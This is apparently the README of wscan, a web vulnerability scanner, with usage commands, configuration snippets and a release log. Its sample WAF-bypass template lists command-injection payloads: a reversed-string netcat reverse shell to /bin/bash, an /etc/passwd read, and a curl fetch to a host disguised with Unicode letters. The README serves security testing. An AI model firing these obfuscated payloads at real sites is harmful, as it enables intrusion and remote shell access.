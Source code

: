 # wscan
Wscan is a web security scanner that focuses on WEB security. It pays homage to Nmap, which has been open source for 25 years. We also plan to continuously update and keep Wscan open source for the next 25 years. We welcome anyone interested in web security to join our development team.

Our goal is to develop a tool for penetration testing using machine learning. Unlike other tools, our tool can automatically learn attack and defense patterns and launch personalized attacks based on specific targets. This way, our attack efficiency and accuracy will be significantly improved, while also reducing the probability of false positives.

Our tool employs machine learning technology to achieve fully automated web penetration testing. This means there is no need for manual addition and update of rules and signatures; it can automatically learn and adapt to new attack patterns and vulnerabilities.

Machine learning technology can also quickly process large amounts of data and traffic, thereby greatly improving testing efficiency and accuracy. In addition, it can identify and discover vulnerabilities and weaknesses that are difficult for humans to perceive, thus enhancing testing quality and reliability.

We believe that using machine learning technology for penetration testing will be a crucial direction for the future of network security. We hope that our tool can help more people safeguard network security and contribute to the field of network security.
![](https://ctstack-oss.oss-cn-beijing.aliyuncs.com/tool/github/9f9e48711df62c154bde487c989dd3a9.gif)
# Example Usage 
⬇️[Download Link](https://github.com/chushuai/wscan/releases)
```
(1) Active Scan
./wscan  --log-level=debug ws --basic-crawler http://testphp.vulnweb.com/ --json-output=wscan_scan_result.json --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --browser  http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --url http://testphp.vulnweb.com/listproducts.php?cat=1  --json-output=wscan_scan_result.json
./wscan  --log-level=debug ws --url-file=/wscan/url_file.txt --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --poc=/your_wscan_poc/wscan-poc/pocs/* --url http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html

(2) Passive Scan
./wscan  --log-level=debug ws --listen=127.0.0.1:1000 --json-output=wscan_scan_result.json  

（3）POC Scan
    3.1 POC download address https://github.com/chushuai/wscan-poc/releases
    3.2 When Wscan is first run, a file named config.yaml will be generated. You need to modify the following content in this file to specify the path of include_poc.
        prometheus:
            enabled: true
            depth: 1
            auto_load_poc: false
            include_poc:
                - C:\wscan_windows_amd64.exe\wscan-poc-1.0.0\pocs\*.yml
            exclude_poc: [] 
    3.3 Enable --plug=prometheus via command line, and specify the absolute path of --url-file (one URL per line) to conduct large-scale POC detection.
        ./wscan --log-level=debug ws --plug=prometheus  --url-file=/url_file.txt  --html-output=wscan_scan_result.html
(4) Custom web general vulnerability scanning template (Waf bypass/Waf testing)
    4.1 Unlike POC testing, the custom web general vulnerability scanning plugin will perform FUZZ on the parameters at the specified location.
        Sample reference https://github.com/chushuai/wscan/tree/main/core/plugins/custom_tmpl/tmpl/owasp
        Plugin sample
        ---
        payload:
          - $(printf 'hsab/nib/ e- 4321 1.0.0.721 cn'|rev)
          - /etc/passwd
          - "`curl -L http://\u24BC\u24C4\u24C4\u24BC\u24C1\u24BA.\u24B8\u24C4\u24C2`"
        encoder:
          - URL
        placeholder:
          - URLParam
          - HTMLForm
          - HTMLMultipartForm
          - JSONRequest
        type: "RCE"
        ...
    4.2 You need to modify the following content in the config.yaml file to specify the path of include_tmpl.
        enabled: true
        depth: 0
        auto_load_tmpl: false 
        include_tmpl:
          - /wscan/core/plugins/custom_tmpl/tmpl/owasp/*.yml
        exclude_tmpl: [ ]
        block_status_codes: # When blocked by WAF, the HTTP status code list, default value is 403
          - 403
        pass_status_codes: # When not blocked by WAF, the HTTP status code list, default value is 200 or 404
          - 200
          - 404
        block_regex: "" # Regular expression for web pages blocked by WAF
        pass_regex: "" # Regular expression for web pages not blocked by WAF
        non_blocked_as_passed: false
    4.3 Enable --plug=custom_tmpl via command line to conduct custom Payload testing on the target website.
        ./wscan --log-level=debug ws --plug=custom_tmpl  --browser  http://testphp.vulnweb.com/  --html-output=wscan_scan_result.html
(5) Independent deployment of anti-connection module
./wscan  reverse
```




# Project Updates
* 2023.11.05 - Release v1.0.0 binary version, supporting simple web general vulnerability detection
* 2023.11.12 - Release v1.0.1 binary version, with static crawler
* 2023.11.12 - Release v1.0.2 binary version, supporting passive scanning
* 2023.11.19 - Release v1.0.3 binary version, supporting JSONP plugin
* 2023.11.26 - Release v1.0.4 binary version, fixing XSS and SQL injection false negatives, supporting vulnerability detection for individual URLs
* 2023.11.30 - Release v1.0.5 binary version, supporting browser crawler, URL and form intelligent filtering
* 2023.12.02 - Release v1.0.6 binary version, supporting output of scanning results in JSON and HTML formats
* 2023.12.03 - Release v1.0.7 binary version, supporting Yaml POC scanning plugin
* 2023.12.04 - Release v1.0.8 binary version, supporting specifying enabled plugins via command line
* 2023.12.09 - Release v1.0.9 binary version, supporting custom web general vulnerability scanning templates (Waf bypass/Waf testing)
* 2023.12.12 - Release v1.0.10 binary version, directory scanning includes 400 common rules, supporting custom scanning path bruteforce. Supporting ASP and PHP general command execution detection
* 2023.12.24 - Release v1.0.11 binary version, supporting standalone deployment of anti-connection module, with Yaml POC supporting anti-connection function
* 2023.12.30 - Release v1.0.12 binary version, supporting Goby JSON POC plugin, multi-layer URL directory POC scanning

# The open-source schedule is outlined as follows  
Wscan's goal is to create an open-source and non-profit project. However, due to the substantial workload involved in Wscan,
the code is still undergoing rapid iterations. Premature open-sourcing may lead to the emergence of various modified versions, 
which is not conducive to the tool's dissemination and the future development of the project. 
Therefore, the plan is to open-source the project in stages and modules, using Stars as a metric, 
to ensure the robustness of the project and organized community participation.

1.  YAML POC Scan Module (Open source when Stars > 400)  
2.  Reverse Connection Module (Open source when Stars > 400)  
3.  SQL Injection Module (Open source when Stars > 500)  
4.  Dynamic Crawler (Open source when Stars > 600)  
5.  Directory Scan Module (Open source when Stars > 700)  
6.  Baseline Scan (Open source when Stars > 800)  
7.  Plugin Scheduling Module Based on Message Subscription (Open source when Stars > 900)  
8.  HTTP Parameter Deformation Module; Traditional Scan Modules All Open Source; Users can modify, compile, and build scanners on their own (Open source when Stars > 1k)  
9.  Machine Learning Module to Reduce False Positives (Open source when Stars > 3k)  
10. Machine Learning Module for Automatic Payload Generation (Open source when Stars > 4k)  